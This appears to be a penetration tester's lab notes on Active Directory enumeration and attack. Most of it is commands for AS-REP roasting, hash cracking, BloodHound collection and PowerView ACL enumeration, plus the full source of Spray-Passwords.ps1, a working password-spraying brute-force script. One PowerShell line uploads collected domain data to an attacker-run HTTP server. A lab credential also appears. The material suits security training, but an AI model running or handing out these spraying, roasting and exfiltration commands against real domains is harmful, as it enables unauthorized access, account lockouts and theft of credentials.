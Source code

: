 # Enumeration

<details>

<summary>Finding Name of Domain</summary>

```bash
crackmapexec smb 10.11.1.123 -u '' -p ''
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -s base
```

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
  * Domain: `EGOTISTICAL-BANK.LOCAL`

</details>

<details>

<summary>LDAPSearch</summary>

```bash
ldapsearch -H ldap://192.168.165.122 -x -W -b "dc=hutch,dc=offsec" > ldap_search.txt

# Usernames
cat ldap_search.txt| grep -i "samaccountname"

# Might have hidden passwords
cat ldap_search.txt| grep -i "description"
```

```bash
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

</details>

<details>

<summary>AS-REP Roasting</summary>

### Generate list of potential usernames

```bash
wget https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py
python2.7 usernamer.py -f full_names.txt > potential_usernames.txt
```

### Kerbrute

* `--downgrade` so it is in a format that hashcat can crack
* Can use `/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt` if don't know wordlist

```bash
git clone https://github.com/ropnop/kerbrute.git
go build
kerbrute --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL --hash-file hashes.txt --downgrade userenum potential_usernames.txt
```

### Get-NPUsers

```bash
impacket-GetNPUsers -usersfile users.txt -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/
```

```bash
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

### Cracking Hashes

```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>BloodHound</summary>

```bash
# Generate JSON files
python3 -m bloodhound -d hutch.offsec -u fmcsorley -p CrabSharkJellyfish192 -c all -ns 192.168.165.122 --zip

neo4j console
```

Search bloodhound in Apps and open --> load in the jsons (Upload Data).

Upload completed --> Search "SVC\_LOANMGR@EGOTISTICAL-BANK.LOCAL" --> Node Info --> First Degree Object Control (under Outbound Object Control) --> To see items that this user has rights over

Go hamburger menu and click analysis --> Start from the bottom of the entire list.

### OR Use SharpHound.exe to collect data for BloodHound

The following will generate `20230425015352_BloodHound.zip`

```bash
SharpHound.exe -c all

# OR
Import-Module ..\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputPrefix "corp_audit"
```

Transfer files to Kali [https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py](https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py)

```powershell
PS C:\temp> (New-Object System.Net.WebClient).UploadFile('http://192.168.45.5/', 'C:\temp\20230425015352_BloodHound.zip')
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.231.175]
└─# python3 SimpleHTTPServerWithUpload.py 80
Serving HTTP on localhost port 80 (http://localhost:80/) ...
(True, "<br><br>'/home/kali/Documents/pg_practice/192.168.231.175/20230425015352_BloodHound.zip'", 'by: ', ('192.168.231.175', 49993))
192.168.231.175 - - [25/Apr/2023 05:13:14] "POST / HTTP/1.1" 200 -

```

</details>

<details>

<summary>PowerView</summary>

Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Computers

```powershell
Get-DomainComputer | select name, dnshostname, operatingsystem
```

```bash
nslookup appsrv01.corp1.com

#Name:    appsrv01.corp1.com
#Address:  192.168.139.6
```

### Enumerate Users

```powershell
Get-NetUser | select samaccountname, lastlogon
```

### Enumerate Groups

* Able to show nested groups (unlike `net groups`)

```powershell
Get-NetGroup | select samaccountname
```

### Enumerate OS of Domain hosts

```powershell
Get-NetComputer | select operatingsystem, dnshostname
```

### Resolves Domain Name to IP address

```powershell
Resolve-IPAddress CLIENT76.corp.com
```

### Tests if current account has localadmin access to domain hosts

```powershell
Find-LocalAdminAccess
```

### View if someone logs into the box

* Might not work if running newer versions of Windows

```powershell
Get-NetSession -ComputerName files04 -verbose
```

#### OR, Use PsLoggedon

```powershell
.\PsLoggedon.exe \\client74
```

</details>

<details>

<summary>Object Permissions</summary>

* Access control lists has access control elements&#x20;



* GenericAll: Full permissions on object (change user's password, add to group)&#x20;
* GenericWrite: Edit certain attributes on the object&#x20;
* WriteOwner: Change ownership of the object&#x20;
* WriteDACL: Edit ACE's applied to object&#x20;
* AllExtendedRights: Change password, reset password, etc.&#x20;
* ForceChangePassword: Password change for object&#x20;
* Self (Self-Membership): Add ourselves to for example a group

### Powerview

#### Find GenericAll permissions on Management Department group

<pre class="language-powershell"><code class="lang-powershell">Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts the SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-21-1987370270-658905905-1781884369-1104", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
# CORP\Domain Admins
# CORP\stephanie
<strong># BUILTIN\Account Operators
</strong># Local System
# CORP\Enterprise Admins
</code></pre>

#### Find GenericAll permissions on Jen user

```powershell
Get-ObjectAcl -Identity "jen" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

# Converts SID to name
"S-1-5-21-1987370270-658905905-1781884369-512", "S-1-5-32-548", "S-1-5-18", "S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

</details>

<details>

<summary>User's Domain Privileges</summary>

```bash
net user <username> /domain
```

</details>

<details>

<summary>Groups Enumeration</summary>

```
net group /domain
```

* However, `net.exe` does not show nested groups.

Listing all the groups in a domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="(objectClass=Group)"
#$Searcher.filter="(name=Secret_Group)"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    $obj.Properties.name
}
<#
Foreach($obj in $Result)
{
    $obj.Properties.member
}
#>
```

</details>

<details>

<summary>Currently Logged On Users</summary>

* Find logged on users in the high-value groups since their creds will be cached in memory

```powershell
Import-Module .\PowerView.ps1
```

* The following command invokes `NetWkstaUserEnum`, which requires administrative permissions and returns the list of all users logged on to a target workstation.

```powershell
Get-NetLoggedon -ComputerName client251
```

* The following command invoke `NetSessionEnum`, which can be used from a regular domain user and returns a list of active user sessions on servers.

```powershell
Get-NetSession -ComputerName dc01
```

</details>

<details>

<summary>Service Principal Names (SPN) Enumeration</summary>

* SPN is used to associate a service on a specific server to a service account in Active Directory.

- Service accounts may also be members of high value groups

* Some apps may use a set of predefined service accounts like LocalSystem, LocalService, and NetworkService. For more complex applications, a domain user account may be used to provide the needed context while still having access to resources inside the domain.

The following script searches for the string `http`, which indicates the presence of a registered web server.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)

$objDomain = New-Object System.DirectoryServices.DirectoryEntry

$Searcher.SearchRoot = $objDomain

$Searcher.filter="serviceprincipalname=*http*"

$Result = $Searcher.FindAll()

Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
}
```

```sh
nslookup CorpWebServer.corp.com
```

</details>

<details>

<summary>Account Policy</summary>

```
net users
```

* The Lockout observation window means that after X minutes of the last login attempt, user will be given 3 more login attempts.

```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

* The following is `Spray-Passwords.ps1`

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose 
    
    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose 
    
    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param 
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }
    
    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}
   
    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name
    
    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file
        
        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."
   
   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects
        
        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"
	
	
	
				   # Try the auth with current password
        	                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
			
                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else 
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }
			 
			 
			    
                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```

</details>

<details>

<summary>Anonymous Credential LDAP Dumping</summary>

```bash
ldapsearch -LLL -x -H ldap:// -b ‘’ -s base ‘(objectclass=*)’
```

</details>

<details>

<summary>Impacket Look Up SID</summary>

```bash
/usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0
```

</details>

<details>

<summary>Windapsearch</summary>

```bash
python3 windapsearch.py -d host.domain -u domain\ldapbind -p PASSWORD -U
```

</details>

## OSEP Notes below

<details>

<summary>Enumerating Access Rights</summary>

* See what AD object has access rights to the "offsec" user
  *   ```powershell
      . .\powerview.ps1
      Get-ObjectAcl -Identity offsec  
      ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
      ```


* Command that resolve the SID through ConvertFrom-SID
  * ```powershell
    Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
    ```

</details>

<details>

<summary>Enumerating GenericAll Rights </summary>

* Enumerate all domain users that our current account has GenericAll rights to
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```



      <figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption><p><br></p></figcaption></figure>


* Enumerate all domain groups that current account has GenericAll rights to
  *   ```powershell
      Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating WriteDACL</summary>

* Grants permission to modify the DACL itself
  *   ```powershell
      Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```

      <figure><img src="../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Enumerating GenericWrite</summary>

*   ```powershell
    Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
    ```

    <figure><img src="../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

</details>
